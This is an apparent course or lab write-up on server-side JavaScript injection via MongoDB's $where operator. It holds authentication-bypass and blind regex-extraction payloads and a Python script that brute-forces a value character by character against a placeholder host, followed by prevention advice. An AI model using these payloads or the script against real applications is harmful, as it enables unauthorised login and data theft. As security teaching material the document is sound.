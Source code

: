 # Server-Side JavaScript Injection

Server-Side JavaScript Injection (SSJI) is a unique type of NoSQL injection where an attacker can execute arbitrary JavaScript in the database context using the `$where` operator.

## Theory

MongoDB's `$where` operator allows JavaScript expressions to be evaluated as query conditions. When user input is unsanitized, this can lead to JavaScript injection.

### Vulnerable Code Example

```javascript
db.users.find({
    $where: 'this.username === "' + req.body['username'] + '" && this.password === "' + req.body['password'] + '"'
});
```

## Authentication Bypass

### Basic Bypass Payload

Use JavaScript logical operators to always return `true`:

```javascript
// Payload: " || true || ""=="
db.users.find({
    $where: 'this.username === "" || true || ""=="" && this.password === "<password>"'
});
```

### URL-Encoded Payload

```
username=%22+%7C%7C+true+%7C%7C+%22%22%3D%3D%22&password=anything
```

## Blind Data Extraction

### Character-by-Character Extraction

Use JavaScript `match()` function with regex patterns:

**Test first character:**
```javascript
// Payload: " || (this.username.match('^H.*')) || ""=="
db.users.find({
    $where: 'this.username === "" || (this.username.match("^H.*")) || ""=="" && this.password === "<password>"'
});
```

**Continue extraction:**
```javascript
// Second character: " || (this.username.match('^HT.*')) || ""=="
// Third character: " || (this.username.match('^HTB.*')) || ""=="
// And so on...
```

### Complete Extraction Process

1. **Verify injection works:**
   ```javascript
   " || (this.username.match('^.*')) || ""=="
   ```

2. **Extract first character:**
   ```javascript
   " || (this.username.match('^a.*')) || ""=="  // No match
   " || (this.username.match('^b.*')) || ""=="  // No match
   " || (this.username.match('^H.*')) || ""=="  // Match!
   ```

3. **Continue for each position:**
   ```javascript
   " || (this.username.match('^HT.*')) || ""=="
   " || (this.username.match('^HTB.*')) || ""=="
   " || (this.username.match('^HTB{.*')) || ""=="
   ```

## Advanced JavaScript Payloads

### Multiple Field Extraction

```javascript
// Extract both username and password
" || (this.username.match('^H.*') && this.password.match('^a.*')) || ""=="
```

### Conditional Logic

```javascript
// Extract based on conditions
" || (this.username.length > 5 && this.username.match('^HTB.*')) || ""=="
```

### Function Calls

```javascript
// Use JavaScript functions
" || (this.username.indexOf('HTB') === 0) || ""=="
" || (this.username.startsWith('HTB')) || ""=="
```

## Automation Script

```python
#!/usr/bin/env python3

import requests
from urllib.parse import quote_plus

def oracle(r):
    response = requests.post("http://STMIP:STMPO/", headers = {"Content-Type": "application/x-www-form-urlencoded"}, data = f"""username={(quote_plus('" || (' + r + ') || ""=="'))}&password=test""")
    return "Logged in as" in response.text

username = "HTB{"
i = 4
while username[-1] != "}":
    for character in range(32, 127):
        if oracle(f'this.username.startsWith("HTB{{") && this.username.charCodeAt({i}) == {character}'):
            username += chr(character)
            break
    i += 1

assert(oracle(f'this.username == `{username}`') == True)
print(f"Username: {username}")
```

## Common JavaScript Operators

### Logical Operators
- `||` (OR) - Always true if one side is true
- `&&` (AND) - Both sides must be true
- `!` (NOT) - Negation

### Comparison Operators
- `===` (Strict equality)
- `!==` (Strict inequality)
- `==` (Loose equality)
- `!=` (Loose inequality)

### String Methods
- `match()` - Regex matching
- `indexOf()` - Find substring position
- `startsWith()` - Check prefix
- `endsWith()` - Check suffix
- `length` - String length

## Detection Methods

### Error-Based Detection

```javascript
// Cause syntax error
" || (this.username.match('^.*')) || ""=="
```

### Time-Based Detection

```javascript
// Sleep function (if available)
" || (sleep(5000)) || ""=="
```

### Boolean-Based Detection

```javascript
// True/false responses
" || true || ""=="  // Should always work
" || false || ""==" // Should never work
```

## Prevention

### Input Validation

```javascript
// Validate input before using in $where
function validateInput(input) {
    if (typeof input !== 'string') return false;
    if (input.includes('"') || input.includes("'")) return false;
    if (input.includes('||') || input.includes('&&')) return false;
    return true;
}
```

### Alternative Queries

```javascript
// Use standard MongoDB operators instead of $where
db.users.find({
    username: req.body.username,
    password: req.body.password
});
```

### Parameterized Queries

```javascript
// Use MongoDB driver's parameterized queries
const query = { username: username, password: password };
db.users.find(query);
```

## Key Points

- **Unique to NoSQL**: JavaScript injection is specific to MongoDB's `$where` operator
- **Flexible payloads**: Can use any valid JavaScript expressions
- **Multiple attack vectors**: Authentication bypass, data extraction, information disclosure
- **Automation friendly**: Easy to script character-by-character extraction
- **Detection methods**: Error-based, time-based, boolean-based

## Common Vulnerable Patterns

- User input directly concatenated into `$where` expressions
- Lack of input validation on JavaScript operators
- Using `$where` when standard operators would suffice
- Missing output encoding in error messages
